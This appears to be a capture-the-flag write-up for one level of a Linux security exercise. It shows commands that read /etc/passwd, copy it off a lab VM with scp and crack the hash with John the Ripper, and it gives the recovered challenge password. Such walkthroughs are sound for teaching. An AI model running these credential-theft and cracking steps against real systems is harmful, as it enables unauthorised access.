 # LEVEL 01

## 💡 Explanation

In this level we have to:
1. Copy the file `/etc/passwd` from the VM to our computer
2. Use our friend john to give us the password

## 👾 Commands

```
cat /etc/passwd | grep "flag01"
scp -P 4242 level01@192.168.56.3:/etc/passwd ./level01/Resources/etc_passwd
john level01/Resources/etc_passwd --show
```

## 🔍 Resources

- [John - Simple user guide](https://linuxcommandlibrary.com/man/john)

## 🔥 Password
`abcdefg`
